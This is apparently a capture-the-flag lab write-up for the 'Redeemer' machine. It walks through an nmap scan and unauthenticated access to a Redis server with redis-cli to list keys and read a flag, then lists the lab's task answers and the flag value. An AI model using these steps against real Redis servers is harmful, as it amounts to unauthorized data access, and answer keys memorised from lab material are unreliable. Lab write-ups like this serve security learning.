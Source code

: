 Starting Point - Tier 0

-Machine Name: Redeemer

-Difficulty: Very Easy

-IP address: 10.129.2.230



##      Steps:

- scan the network

      sudo nmap 10.129.2.230 -sV -p- --min-rate 5000

- go to root

      sudo su
- to see redis commands

      redis-cli --help
- connect to redis server

      redis-cli -h 10.129.2.230

- select database 0

      select 0

- list the information of the redis

      info
-  list all the keys stored in the currently selected database.

        keys *
- download flag

      get flag.txt

- in the root, go to Downloads

      cd Downloads

- open the file containing the flag

      cat flag.txt


##  Tasks:

Task 1

-Which TCP port is open on the machine?


    6379


Task 2

-Which service is running on the port that is open on the machine?


    redis


Task 3

-What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database


    In-memory Database


Task 4

-Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.


    redis-cli


Task 5

-Which flag is used with the Redis command-line utility to specify the hostname?


    -h


Task 6

-Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?


    info


Task 7

-What is the version of the Redis server being used on the target machine?


    5.0.7


Task 8

-Which command is used to select the desired database in Redis?


    select


Task 9

-How many keys are present inside the database with index 0?


    4


Task 10

-Which command is used to obtain all the keys in a database?


    keys *


Submit Flag

-Submit root flag


    03e1d2b376c37ab3f5319922053953eb
